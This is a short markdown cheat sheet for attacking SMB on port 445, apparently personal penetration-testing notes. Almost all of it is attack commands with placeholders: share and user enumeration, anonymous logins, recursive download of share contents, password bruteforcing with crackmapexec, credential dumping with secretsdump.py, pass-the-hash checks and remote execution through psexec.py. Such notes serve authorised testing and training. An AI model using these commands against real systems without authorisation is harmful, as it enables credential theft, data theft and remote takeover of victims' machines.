 # 445 - SMB

```bash
# nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse <RPORT>
# smbclient //<RHOST>/<share>
# smbget -R smb://<RHOST>/<share>
```

## Listing shares

```bash
smbmap.py -H <target> -u <user> -p <pass/hash>
crackmapexec smb --shares <target> -u <user> -p <pass>

smbmap.py -H $1 -u "" -p ""
crackmapexec smb --shares $1 -u "" -p ""
```

## Connecting to share

```bash
smbclient.py <target>
  shares
  use <share>
  ls

# mount -t cifs [-o 'username=<user>,password=<pass>'] //<target>/<remote> <local>
```

## SMB commands

```bash
SMB> allinfo
SMB> more <file>:<stream>
SMB> recurse on
SMB> prompt off
SMB> mget *
```

## Bruteforcing

```bash
crackmapexec smb <target> -u <user/list> -p <pass/list> --continue-on-success
```

## secretsdump

```bash
secretsdump.py <domain>/<user>@<target>
```

## checking for psexec.py

```bash
crackmapexec smb <target> -u <user> (-H <hash> || -p <pass>)
```

## psexec.py

```bash
psexec.py <adminuser>@<target> [-hashes <hash:hash>]
```

## Default shares

```bash
ADMIN$
C$
IPC$
```

